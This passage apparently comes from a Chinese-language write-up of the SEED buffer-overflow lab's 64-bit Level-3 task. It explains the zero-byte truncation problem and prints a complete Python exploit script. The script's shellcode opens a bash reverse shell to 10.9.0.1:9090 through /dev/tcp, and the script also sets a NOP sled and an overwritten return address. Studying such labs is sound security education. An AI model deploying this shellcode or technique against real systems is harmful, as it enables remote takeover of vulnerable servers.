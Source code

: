 运行结果如图：

![Screenshot 2024-04-03 at 3.15.55 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_3.15.55_AM.png)

# Task 4: Level-3 Attack

本lab切换为64位，文档中强调64位地址前两个byte一定是0，但是 `strcpy` 遇到0会停止。

由于我们是小端法存储，所以前两个byte实际上在buffer的后边，如果截断了之后第三个byte后边的两个byte仍然是0的话就不影响。因为我们要写的是原来的返回地址，他的前两个byte一定也是0，所以理论上我们只需要覆盖他的后6个 byte 就可以了。

这种情况下需要shellcode必须要在返回地址前边，否则就会被截断。而且除了前两个byte之外的其余byte不能是0，尤其是中间的几个。

首先看一下返回地址的地址和buffer的地址：

![Screenshot 2024-04-03 at 3.36.44 AM.png](/assets/img/2024-04-25-Buffer-Overflow Attack Lab (Server Version)/Screenshot_2024-04-03_at_3.36.44_AM.png)

注意到最后一个byte是0，那这个比较容易解决，只要shellcode在buffer中有一定的偏移使得开始地址的最后一个byte不是0就好。

经过计算发现返回地址的地址和buffer相差216，而shellcode的大小仅165，在返回地址前就可以放下shellcode。

脚本如下：

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 8               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00007fffffffe608 # Change this number
offset = 216            # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
